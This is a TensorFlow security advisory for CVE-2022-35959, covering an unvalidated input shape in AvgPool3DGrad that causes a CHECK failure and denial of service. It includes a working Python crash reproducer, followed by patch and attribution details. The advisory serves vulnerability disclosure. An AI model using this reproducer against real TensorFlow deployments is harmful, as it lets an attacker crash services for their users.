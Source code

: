 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-094.md
## TFSA-2022-094: `CHECK` failures in `AvgPool3DGrad`

### CVE Number
CVE-2022-35959

### Impact
The implementation of `AvgPool3DGradOp` does not fully validate the input `orig_input_shape`. This results in an overflow that results in a  `CHECK` failure which can be used to trigger a denial of service attack:
```python
import tensorflow as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "VALID"
data_format = "NHWC"
orig_input_shape = tf.constant(-536870912, shape=[4], dtype=tf.int32)
grad = tf.constant(.0890338004362538, shape=[1,5,7,1], dtype=tf.float64)
tf.raw_ops.AvgPoolGrad(orig_input_shape=orig_input_shape, grad=grad, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [9178ac9d6389bdc54638ab913ea0e419234d14eb](https://github.com/tensorflow/tensorflow/commit/9178ac9d6389bdc54638ab913ea0e419234d14eb).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
